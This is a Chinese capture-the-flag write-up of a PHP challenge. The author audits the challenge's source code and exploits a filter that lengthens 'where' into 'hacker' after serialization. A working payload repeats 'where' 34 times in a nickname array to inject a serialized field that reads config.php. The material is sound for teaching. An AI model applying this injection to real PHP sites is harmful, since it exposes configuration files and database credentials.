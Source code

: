 ![[Pasted image 20221219085611.png|500]]

---
首页长这样

![[Pasted image 20221219085636.png|200]]

试密码和`sql`注入没试出来，八成是要扫目录

![[Pasted image 20221219105158.png|500]]

下载下来

![[Pasted image 20221219113827.png|300]]

访问`/register.php`进行一个账号的注册

![[Pasted image 20221219113932.png|200]]

来到`/profile.php`，然后又跳转到`/update.php`

![[Pasted image 20221219114033.png|200]]

有一个`upload`文件夹，`update.php`可以上传图片

---
`update.php`的关键代码
```php
$username = $_SESSION['username'];
if(!preg_match('/^\d{11}$/', $_POST['phone']))
	die('Invalid phone');

if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
	die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');

$file = $_FILES['photo'];
if($file['size'] < 5 or $file['size'] > 1000000)
	die('Photo size error');

move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
```
最后向`$user->update_profile`传递了经过序列化的`$profile`

`update_profile`在`class.php`中
```php
public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```
调用了`parent::filter`
```php
public function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
对序列化结果进行过滤（大喜

八成是字符串逃逸了

利用`nickname`制造逃逸，通过传递数组绕过`preg_match`

`where`是5个字符，`hacker`是6个字符，利用对`where`的过滤把`nickname`中的非法字符顶出去

目标是读取`config.php`
```php
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
	$flag = '';
?>
```

构造`payload`
```php
<?php
	$profile['phone'] = '18888888888';
	$profile['email'] = 'somebody@host.com';
	$profile['nickname'] = array('nickname');
	$profile['photo'] = 'upload/sdfia';
	echo serialize($profile);
?>
```

> a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:17:"somebody@host.com";s:8:"nickname";a:1:{i:0;s:8:"nickname";}s:5:"photo";s:12:"upload/sdfia";}

我们需要逃逸的内容
```
";}s:5:"photo";s:10:"config.php";}
```
长度为34

于是`payload`为
```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

![[Pasted image 20221219184827.png|500]]

![[Pasted image 20221219184912.png|500]]

![[Pasted image 20221219184953.png|500]]

![[Pasted image 20221219185026.png|500]]

![[Pasted image 20221219185118.png|700]]

#Web #PHP #目录爆破 #代码审计 #反序列化 #字符串逃逸 #HTTP #encoding